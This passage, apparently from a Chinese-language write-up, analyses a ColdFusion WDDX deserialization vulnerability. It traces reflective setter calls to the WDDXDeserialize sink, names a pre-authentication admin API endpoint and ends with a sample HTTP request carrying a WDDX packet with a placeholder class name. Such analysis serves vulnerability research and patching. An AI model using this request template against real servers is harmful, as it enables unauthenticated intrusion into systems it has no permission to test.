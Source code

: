 接下来通过循环获取Struct标签内传入的properties，然后获取其setter方法，通过反射调用

![image-20230728171225671](images/12.png)

变量值作为唯一参数，这些变量值来自 WDDX 数据包，这又是用户控制的。

调用类的方法满足以下条件：

1. 该类必须有一个不带参数的公共构造函数。
2. 该方法必须是一个 setter，由其名称以“set”开头表示。
3. setter 方法必须只接受一个参数。

## Find sink

对于反序列化这种标签的源头在WddxDeserializer，如果反编译后可以看到FilterUtils类中调用了这个方法

![image-20230728171844138](images/13.png)

此方法将请求上下文作为输入，并argumentCollection从表单或查询字符串中提取参数。然后检查检索到的输入以确定其是否为 JSON 类型。如果不是，则使用WDDXDeserialize()调用将该值反序列化为 WDDX 数据包。

接下来就是需要去找到CFC端点去触发GetArgumentCollection对我们易受攻击的接收器的调用并最终触发调用WDDXDeserialize

其中/CFIDE/adminapi/accessmanager.cfc是预验证有效的 CFC 端点。

```
POST /CFIDE/adminapi/accessmanager.cfc?method=foo&_cfclient=true HTTP/2
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.134 Safari/537.36
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 275

argumentCollection=<wddxPacket version='1.0'><header/><data><struct type='xclassNamex'><var name='VERSION'><string>1.0.0</string></var></struct></data></wddxPacket>
```